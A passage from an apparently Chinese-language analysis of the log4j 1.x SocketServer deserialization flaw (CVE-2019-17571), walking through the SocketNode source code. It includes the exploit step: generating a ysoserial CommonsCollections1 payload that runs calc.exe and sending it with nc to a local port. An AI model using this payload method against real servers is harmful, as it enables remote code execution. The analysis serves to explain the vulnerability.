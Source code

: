 ```plain
        cat.info("Connected to client at " + socket.getInetAddress());
        cat.info("Starting new socket node.");
        // 创建一个线程
        new Thread(new SocketNode(socket,
                    LogManager.getLoggerRepository()),"SimpleSocketServer-" + port).start();
      }
    } catch(Exception e) {
      e.printStackTrace();
    }
}
```

执行到serverSocket.accept();会一致等待接收，此时使用ysoserial生成CC1链的payload，再使用nc向目标ip和端口发送数据

```plain
java -jar ysoserial-all.jar CommonsCollections1 "calc.exe" > cve201917571
cat cve201917571| nc 127.0.0.1 4444
```

此时accept成功接收到一个客户端的连接  
[![](assets/1700545019-b264ff2e62d388987b7b468aac043734.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120133100-fd4054f4-8765-1.png)

主要看创建线程的代码，里面参数中new了一个SocketNode对象，进入

```plain
public SocketNode(Socket socket, LoggerRepository hierarchy) {
    this.socket = socket;
    this.hierarchy = hierarchy;
    try {
        // 创建一个ObjectInputStream对象ois，数据从socket中获取数据流
      ois = new ObjectInputStream(
                         new BufferedInputStream(socket.getInputStream()));
    } catch(InterruptedIOException e) {
      Thread.currentThread().interrupt();
      logger.error("Could not open ObjectInputStream to "+socket, e);
    } catch(IOException e) {
      logger.error("Could not open ObjectInputStream to "+socket, e);
    } catch(RuntimeException e) {
      logger.error("Could not open ObjectInputStream to "+socket, e);
    }
}
```
